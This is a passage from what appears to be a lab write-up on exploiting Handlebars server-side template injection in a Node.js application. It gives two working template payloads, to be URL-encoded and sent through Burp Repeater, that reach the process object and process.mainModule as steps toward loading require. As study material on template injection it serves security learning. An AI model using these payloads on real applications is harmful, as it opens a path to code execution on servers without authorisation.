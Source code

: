 ### Solution
- Node.js may allow the [process](https://nodejs.org/api/process.html#process) object and if it does, we can use that to load the `require` module. Need to test it first with this code (encode to URL, paste into Repeater): 

```
{{#with "s" as |string|}}
{{#with "e"}}
{{#with split as |conslist|}}
{{this.pop}}
{{this.push (lookup string.sub "constructor")}}
{{this.pop}}
{{#with string.split as |codelist|}}
{{this.pop}}
{{this.push "return process;"}}
{{this.pop}}
{{#each conslist}}
{{#with (string.sub.apply 0 codelist)}}
{{this}}
{{/with}}
{{/each}}
{{/with}}
{{/with}}
{{/with}}
{{/with}}
```

-  The line with `{{this.push "return process;"}}` should return `[object process]`. That indicates we can use this object.
- The `process` object has a [mainModule](https://nodejs.org/api/process.html#processmainmodule). It is deprecated, but it still might be available and useful ([blog post on the module](https://www.geeksforgeeks.org/node-js-process-mainmodule-property/)). 
- Test to see if the mainModule is accessible to us (encode to URL, paste into Repeater): 

```
{{#with "s" as |string|}}
{{#with "e"}}
{{#with split as |conslist|}}
{{this.pop}}
{{this.push (lookup string.sub "constructor")}}
{{this.pop}}
{{#with string.split as |codelist|}}
{{this.pop}}
{{this.push "return process.mainModule;"}}                #  this is the line
{{this.pop}}
{{#each conslist}}
{{#with (string.sub.apply 0 codelist)}}
{{this}}
{{/with}}
{{/each}}
{{/with}}
{{/with}}
{{/with}}
{{/with}}
```
